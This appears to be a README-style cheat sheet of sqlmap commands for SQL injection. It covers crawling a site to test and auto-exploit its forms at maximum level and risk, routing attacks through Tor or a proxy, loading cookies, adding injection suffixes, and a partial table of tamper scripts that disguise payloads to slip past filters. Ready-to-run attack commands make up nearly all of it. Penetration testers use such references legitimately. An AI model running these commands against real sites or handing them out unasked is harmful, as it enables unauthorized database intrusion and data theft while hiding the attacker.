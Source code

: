 #### Crawl a website with SQLmap and auto-exploit

```
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms
```

#### Using TOR with SQLmap

```
sqlmap -u "http://www.target.com" --tor --tor-type=SOCKS5 --time-sec 11 --check-tor --level=5 --risk=3 --threads=5
```

#### Using a proxy with SQLmap

```
sqlmap -u "http://www.target.com" --proxy="http://127.0.0.1:8080"
```

#### Using Chrome cookie and a Proxy

```
sqlmap -u "https://test.com/index.php?id=99" --load-cookie=/media/truecrypt1/TI/cookie.txt --proxy "http://127.0.0.1:8080"  -f  --time-sec 15 --level 3
```

#### Using suffix to tamper the injection

```
python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "
```

#### General tamper option and tamper's list

```
tamper=name_of_the_tamper
```

| Tamper                       | Description                                                                                                                                        |
| ---------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------- |
| 0x2char.py                   | Replaces each (MySQL) 0x encoded string with equivalent CONCAT(CHAR(),…) counterpart                                                               |
| apostrophemask.py            | Replaces apostrophe character with its UTF-8 full width counterpart                                                                                |
| apostrophenullencode.py      | Replaces apostrophe character with its illegal double unicode counterpart                                                                          |
| appendnullbyte.py            | Appends encoded NULL byte character at the end of payload                                                                                          |
| base64encode.py              | Base64 all characters in a given payload                                                                                                           |
| between.py                   | Replaces greater than operator ('>') with 'NOT BETWEEN 0 AND #'                                                                                    |
| bluecoat.py                  | Replaces space character after SQL statement with a valid random blank character.Afterwards replace character = with LIKE operator                 |
| chardoubleencode.py          | Double url-encodes all characters in a given payload (not processing already encoded)                                                              |
| charencode.py                | URL-encodes all characters in a given payload (not processing already encoded) (e.g. SELECT -> %53%45%4C%45%43%54)                                 |
| charunicodeencode.py         | Unicode-URL-encodes all characters in a given payload (not processing already encoded) (e.g. SELECT -> %u0053%u0045%u004C%u0045%u0043%u0054)       |
| charunicodeescape.py         | Unicode-escapes non-encoded characters in a given payload (not processing already encoded) (e.g. SELECT -> \u0053\u0045\u004C\u0045\u0043\u0054)   |
| commalesslimit.py            | Replaces instances like 'LIMIT M, N' with 'LIMIT N OFFSET M'                                                                                       |
| commalessmid.py              | Replaces instances like 'MID(A, B, C)' with 'MID(A FROM B FOR C)'                                                                                  |